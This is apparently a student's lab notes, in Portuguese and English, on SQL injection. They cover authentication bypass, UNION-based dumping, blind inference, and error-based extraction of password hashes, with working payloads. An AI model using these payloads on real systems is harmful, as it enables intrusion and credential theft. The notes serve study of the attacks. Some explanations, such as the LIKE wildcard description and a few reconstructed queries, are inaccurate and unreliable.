 # SQL INJECTION

## Basic SQL Injections

### SELECT * FROM users where username='".$user."' AND password = '.md5($password)."'

As we can see, the password is hashed using md5, so that's probably not the best path for us to attack from. However, the User Field is not protected at all
Se no login, na parte do username, escrevermos **voldemort' -- //**, Isto causa que o resto da query seja ignorada
> -- // é como se faz comentarios em SQL
 Assim o server recebe:

```sql
SELECT * FROM users where username='voldemort' -- //' AND password =''
```

a partir do 'voldemort', é tudo comentario. Logo, desde que voldemort seja um username existente, a query não irá ter erros e vai retornar *.

### SELECT * FROM users where (username='".$user."') AND (password = '.md5($password)."')

Aqui, temos os parenteses como extra segurança. Se fizessemos como antes ficava assim:

```sql
SELECT * FROM users where (username='voldemort' -- //') AND (password = '.md5($password)."')
```

Acaba-se com uma query mal formada, uma vez que nunca foram fechados os parenteses.

Entao, se fizermos login com o username **voldemort') -- //**, cria a seguinte query:

```sql
 "SELECT * FROM users where username=('Voldemort') -- // ') AND password = '.md5($password). 
```

Assim já funciona a injection.

### SELECT * FROM products WHERE product_name LIKE '".$query."%'

> In SQL, a command ending in *LIKE ba%*, will return items whose names end with the substring "ba".

Neste exercício, estamos a usar uma barra de pesquisa em que nos aparecem os items que começam com a substring *".$query."*
Como não há qualquer tipo de validação, podemos fazer traquinagem

Por exemplo, se escrevermos na barra **b%' order by 5 -- //**, o servidor vai receber a query:

```sql
SELECT * FROM products WHERE product_name LIKE 'b%' order by 5 -- //%'
```

Isto ordena a tabela resultante pela quinta coluna de dados.

Dá pa fazer mais cenas na search bar.
> The UNION operator is used to combine the result-set of two or more SELECT statements
Por tanto se fizermos:

```sql
'union select null,id,username,password,fname from users -- //  
```

Cria a query:

```sql
"SELECT * FROM products WHERE product_name LIKE '% 'union select null,id,username,password,fname from users -- %' 
```

Assim, alem de aparecerem os produtos, aparece tambem uma tabela com id, username, pass ...

Se não soubermos os nomes das variáveis e tabelas, o que é muito provavel, fazemos **'union select null,null,null,null,table_name from information_schema.tables -- //**

Isto retorna tudo o que existe na base de dados.

## SQL Second Order Attacks

This designation (Second Order Attacks) is given to attacks that result in the storage of an unsanitized piece of SQL, that is later executed by an insecure function
Por exemplo, regista-se uma conta com username e pass, mas no username injeta-se SQL. Não acontece nada de momento, mas mais tarde quando se for trocar de pass, o SQL injetado vai ser executado. ***É por isso que se chama second order***

Utilizando **' or 1 in (select password from users) -- //**, dá nos um erro, mas a mensagem de erro mostra nos também o que queremos:
> Warning<: 1292: Truncated incorrect DOUBLE value : (...)
(Where ==(...)== are all the passwords in the **users** table password column)

## Blind SQL Injection

A Blind SQL injection happens when an attacker is able to determine the content of the database by the result of an operation. That is, the attacker will not get data from the database, but it will get a code (Error code, true false, etc...) that provides information about the data in the database.

Neste exercício, temos uma página cujo URL tem o username do utilizador. Alterando esse valor, podemos aceder a paginas de outros utilizadores. Também podemos fazer outras coisas injetando SQL.

A query da pagina funciona da seguinte forma:

```sql
SELECT * FROM users WHERE username = '".$_GET["user"]."'
```

Utilizaremos a template **voldemort AND TEST** em que TEST é qualquer pedaço de código SQL.
Podemos, por exemplo, fazer: **voldemort AND SUBSTRING((select count(id) from users), 1) = N' -- //**

Isto cria a seguinte query:

```sql
SELECT * FROM users WHERE username = '.$_GET["voldemort AND SUBSTRING((select count(id) from users), 1) = N"].'
```

> By gradually incrementing N, we can, by **trial and error** get how many users exist in the **users** table (which corresponds to how many users exist overall). We'll know we've hit jackpot (i.e N equals the number of users that exist) when information is shown on the page (meaning that our < TEST > was validated as **TRUE** !) This basically gives us a way to find out anything we want from the database, using an exhaustive, and repetitive form, by basically continously asking the query: "Is < TEST > correct? Yes? Cool! No? Well, how about this?"

## Error based data extraction

Voltando à pagina de login, podemos extrair informação de lá a partir de mensagens de erros.

Lembrando que esta form funciona da seguinte forma:

```sql
SELECT * FROM users where username='".$user."' AND password = '.md5($password).
```

Se escrevermos isto no login: **' or 1 in (select @@version) -- //**, o server recebe:

```sql
SELECT * FROM users where username='' or 1 in (select @@version) -- //' AND password = '.md5($password)."'
```

Aparece na página o seguinte erro:
> Warning: 1292: Truncated incorrect DOUBLE value: '8.0.17'
Já sabemos a versao do server.

### Outras funcionalidades

#### Return the hashed password of the admin user (or any user)

```sql
' or 1 in (select password from users where username = 'admin') -- //
```

#### Get info from the **users** table

```sql
 ' or 1 in (select username from users where id=1) -- //
```

#### List the tables of the information_schema ﬁrst database. You can obtain the list of table identiﬁers (TABLE_ID) and then use this information to obtain further data (e.g. WHERE TABLE_ID=1024)

```sql
' or 1=CAST((select group_concat(name) from INFORMATION_SCHEMA.INNODB_TABLES) AS SIGNED) -- //
```

This last example allows us to dump all rows from any column in any table. It basically contacts multiple values so that the result can be included in the error message

#### List the usernames of all users stored in the users table

```sql
'or 1=CAST((select group_concat(username) from users) AS SIGNED)-- //`
```

#### List the passwords of all users stored in the users table

```sql
'or 1=CAST((select group_concat(password) from users) AS SIGNED)-- //
```

